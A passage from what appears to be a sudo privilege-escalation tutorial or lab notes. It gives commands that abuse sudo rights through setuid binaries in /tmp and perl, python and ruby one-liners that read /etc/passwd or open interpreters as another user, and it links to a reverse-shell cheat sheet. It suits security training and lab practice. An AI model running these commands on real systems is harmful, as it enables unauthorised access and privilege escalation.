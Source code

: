This will allow you to create a file owned by the victim user. After you copied it, you should be able to set the `executable`, `setuid` and `setgid` flags on it using:

```bash
sudo -u target chmod +xs /tmp/target
```

We can then run the executable normally, but it will run with the target user's profile.

```bash
/tmp/target
```

__Perl__

Run perl code in the context of the target user

```bash
sudo -u target7 /usr/bin/perl -pe 'print $' /etc/passwd
sudo -u target7 /usr/bin/perl -e 'exec "cat /etc/passwd";'
```

Or run a perl REPL

```bash
sudo -u target7 /usr/bin/perl -d -e 1
```

Or even some reverse shells... [link](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-reverse-shell)

__Python__

Run Python code in the context of the target user

```bash
sudo -u target8 /usr/bin/python -c 'import sys;[sys.stdout.write(line) for line in open("/etc/passwd")]'
```

Run a Python REPL:

```bash
sudo -u target8 /usr/bin/python
```
```
with open("/etc/passwd") as f:
    print(f.readlines())
```

__Ruby__

Run Ruby code in the context of the target user

```bash
sudo -u target9 /usr/bin/ruby -e 'File.open("/etc/passwd", "r") do |f|
>   f.each_line do |line|
>     puts line
>   end
> end'
```
